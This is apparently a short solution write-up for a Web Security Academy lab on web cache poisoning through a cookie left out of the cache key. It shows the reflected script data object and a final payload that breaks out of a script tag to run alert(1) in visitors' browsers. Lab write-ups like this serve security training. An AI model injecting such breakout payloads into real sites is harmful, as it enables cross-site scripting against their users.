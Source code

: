 # Description

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

# Solution

```html
<script>
data = {"host":"0af800a903de971780815d1400b1004d.web-security-academy.net","path":"/","frontend":"prod-cache-01"}
</script>
```


```html 
<script>
data = {"host":"0af800a903de971780815d1400b1004d.web-security-academy.net","path":"/","frontend":"alert(1)"}
</script>
```


## Final payload

```html
"}</script><script>alert(1)//
```

